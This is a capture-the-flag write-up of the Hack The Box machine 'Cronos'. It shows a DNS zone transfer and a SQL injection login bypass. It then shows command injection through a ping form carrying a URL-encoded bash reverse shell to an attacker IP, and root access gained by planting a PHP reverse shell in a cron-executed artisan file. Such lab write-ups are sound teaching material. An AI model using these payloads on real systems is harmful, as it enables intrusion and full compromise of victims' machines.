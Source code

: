 ```yaml
---
title: "Cronos"
date: 18-06-2025
categories: [Linux, Medium]
tags: [SQL Injection, SQLMap, Cronjob, DNS, RCE]
image: https://labs.hackthebox.com/storage/avatars/f77c75f363afe0d0a6eeccf6a8d8c252.png
---
```


Cronos is a medium difficulty Linux machine. This box has only three TCP ports open; SSH, HTTP and DNS. DNS is configured in such a way that we are able to extract the domain name of this machine which resolves to `cronos.htb`. With the domain name we can perform a DNS zone transfer which leaks an admin subdomain. This admin page has a login form which is vulnerable to an SQL injection which allows us to bypass the login check. Once inside the admin page we have a command injection vulnerability which comes from a ping command. This page seems to be used to test the connection of different devices, and does not have any security checks. We are able to get a reverse shell from which we find a vulnerable cron job that we can abuse to get a reverse shell as the root user. 

![cron_info_card](/assets/images/cronos/Cronos.png)
## Enumeration
As always we can start off with an nmap scan to reveal which TCP ports are open on thsi box.
#### Nmap Scan
```
# Nmap 7.94SVN scan initiated Wed Jun 18 15:54:24 2025 as: nmap -Pn -n -oN nmap/allports --min-rate 5000 -p- 10.10.10.13
Nmap scan report for 10.10.10.13
Host is up (0.021s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

# Nmap done at Wed Jun 18 15:54:35 2025 -- 1 IP address (1 host up) scanned in 11.15 seconds
```

There are only three TCP ports open, a quick look around the website reveals that it is just the default Apache welcome page. DNS being open suggests that there could be some missconfigurations. The main objective would be to perform a DNS zone transfer to leak the different subdomains the machine has available but to do so we need the hostname. To get the hostname we can use the nslookup tool.

```
nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
```
#### DNS Zone Transfer
We can see from the output that cronos.htb is the domain name. To perform the DNS zone transfer we can use the following command

```
dig axfr @10.10.10.13 cronos.htb

; <<>> DiG 9.18.28-1~deb12u2-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 19 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Wed Jun 18 20:54:17 CEST 2025
;; XFR size: 7 records (messages 1, bytes 203)

```
## Finding the Hidden Subdomains
We can see from the output that we gain access to the admin.cronos.htb subdomain which we can add to our hosts file to be able to access the webpage. 
![alt text](/assets/images/cronos/image.png)

#### Discovering the SQL injection to Bypass the Login 
Trying common login credentials such as admin:admin does not work so I try to test for an SQL injection which works and we are able to bypass the login form. We can input the following data into the fields to do so:

```
UserName: a' OR 1=1 -- -
Password: a
```

Once inside the welcome page we see a very simple net tool

![alt text](/assets/images/cronos/image2.png)

## Finding a Potential RCE vector
The ping command is a very common to a command injection vulnerability. I captured the request to work with it in burpsuite as that makes things easier:

```
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://admin.cronos.htb/welcome.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 186
Origin: http://admin.cronos.htb
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=dsdgr0k8vbv3tmem16na0fkqu7
Upgrade-Insecure-Requests: 1
Priority: u=0, i

command=ping+-c+1&host=8.8.8.8
```

We can try a simple and easy to see check by appending a sleep command to the end of the host parameter. The reason to append this at the end of the hosts parameter is because the ping command works as follows `ping host`. If we append our command at the end of the host we can execute any code after executing the ping command. We can try with a `command=ping+-c+1&host=8.8.8.8 ; sleep 2` to check if the reply takes 2 seconds longer, which it does. After confirming the command injection we can try with a bash reverse shell. I had some issues with character encoding but I managed to fix it by encoding the entire command into URL form.

I used the following reverse shell: `bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'` and sent the following payload:

```
command=ping+-c+1&host=8.8.8.8 ; %62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%31%34%2f%39%30%30%31%20%30%3e%26%31%27
```
## Privilege Escalation
Before sending it I set up a listener on the same port on my machine and sure enough we get a connection back as www-data. This user can directly read the user.txt flag inside the home directory of the user `noulis`. From here you could try running linpeas and other priv esc methods but the name of the machine is Cronos. We can safely assume that it is a cron tab exploit.
Checking the crontab file inside /etc/crontab file we see the following:

```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```
The last command is really interesting as it executes every minute as the root user. It is executing a file inside the /var/www/ directory which is the home directory of the www-data user we already own. The artisan file is also writable by us and contains a php script. I simply added the following php reverse shell at the top of the file, which will send me a reverse shell as the root user every minute.

```
cat ~/laravel/artisan
#!/usr/bin/env php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/9002 0>&1'");
/*
```

![alt text](/assets/images/cronos/image3.png)